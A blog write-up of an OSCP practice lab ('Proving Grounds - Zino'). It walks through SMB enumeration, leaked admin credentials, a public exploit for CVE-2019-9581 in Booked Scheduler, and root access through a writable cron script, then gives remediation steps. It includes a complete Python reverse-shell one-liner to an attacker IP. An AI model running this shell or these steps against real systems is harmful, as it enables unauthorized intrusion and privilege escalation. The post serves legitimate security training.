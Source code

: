 ```yaml
---
draft: false
title: "Proving Grounds #1 - Zino"
date: 2023-11-28T00:55:24+00:00
author: William
category:
  - Tech
tags:
  - Hacking
  - Linux
  - Security
---
```

This was my first proving grounds lab of my OSCP. Took longer than I would have liked but I was able to pwn it in the end with a joyful fist pump and woop from my side. Any advice or comments on how I could improve this write-up would be appreciated.

#### Executive summary

The attacker was able to achieve privileged remote code execution on the target box. Issues found can be easily remediated by updating the software Booked Scheduler to V3.7.9 and restricting write permissions of a scheduled cron job.

#### Technical Findings

These are the steps I took to achieve privileged remote code execution in this lab.

Starting with a high-level scan of our target.  
![HackerImage](https://i.imgur.com/PzhTifh.png?resize=704%2C357&ssl=1#center)

Of these lets take a closer look at the smb ports  
![HackerImage](https://i.imgur.com/YU0ToTg.png?resize=760%2C532&ssl=1#center)
We see that guest is enabled on port 445. This combined with a quick enumeration of the shares using <span style="text-decoration: underline;">smbmap</span> we can log into our target using smbclient.  
![HackerImage](https://i.imgur.com/V1QmpMi.png?resize=609%2C279&ssl=1#center)

Here we find our first flag **local.txt** along with a bunch of log files.

50% DONE!!!

Of these auth.log and misc.log have some interesting contents  
![HackerImage](https://i.imgur.com/oEsCkHH.png?resize=903%2C84&ssl=1#center)

![HackerImage](https://i.imgur.com/uKg3ptK.png?resize=720%2C122&ssl=1#center)
Of these two misc.log is the most interesting as it has admin credentials in it. Ill be using this going forward.

With our initial Nmap scan we found a webserver hosted on port 8003. On closer inspection we find a login portal with the version of the hosting software listed at the bottom. After a quick lookup of this software we find the following.  
![HackerImage](https://i.imgur.com/cVRcvtR.png?resize=836%2C127&ssl=1#center)

Ill be using the seccond entry (50594.py) to exploit our target. This exploits the vulnerability CVE-2019-9581.  
![HackerImage](https://i.imgur.com/zkWQAXl.png?resize=586%2C111&ssl=1#center)With remote code execution on our host we can now leverage this into a reverse shell using a generic Python reverse shell script.

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.215",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![HackerImage](https://i.imgur.com/iMu1dUe.png?resize=572%2C105&ssl=1#center)

SUCCESS. Now with the reverse shell I can start looking around for what we have access to… To save you the headache I’ll fast track to the fun part. I find an interesting entry in the cron jobs folder.  
![HackerImage](https://i.imgur.com/MGoJlKn.png?resize=807%2C384&ssl=1#center)
There right at the bottom, there is a Python script run by the cron job with root privileges. Looking at the file in question confirms that we are able to edit it.  
![HackerImage](https://i.imgur.com/hwPItPu.png?resize=705%2C38&ssl=1#center)

We write a Python script locally that will execute the generic reverse shell Python script we used earlier, but now because it will be executed in the root context we will get a root shell.

So we write the script and host it on our local HTTP server.  
![HackerImage](https://i.imgur.com/REwW9wj.png?resize=680%2C180&ssl=1#center)Fetch that puppy overwriting the cleanup.py file! And now we wait with a netcat listener.  
After a minute and a quick coffee break we come back to this beautiful sight  
![HackerImage](https://i.imgur.com/GJSys1g.png?resize=633%2C117&ssl=1#center)
SUCCESS!!!!!

The flag can be found at **cat /root/proof.txt**

Something to note is that you will run into issues if you try to use any ports other than those opened. It seems for this lab they closed all unnecessary ports in line with industry best practice.


#### Conclusion

How to fix this is quite simple. Here are 3 action times:

1. Update Booked Scheduler to 3.7.9 to prevent the initial foothold
2. Restrict write permissions on <span style="text-decoration: underline;">cleanup.py</span>
3. Ensure no user credentials are logged. And probably reroll admin and peter, using a more secure password this time ;D

All in all, this was a fun lab to start cutting my teeth on, don’t worry this is the first of many!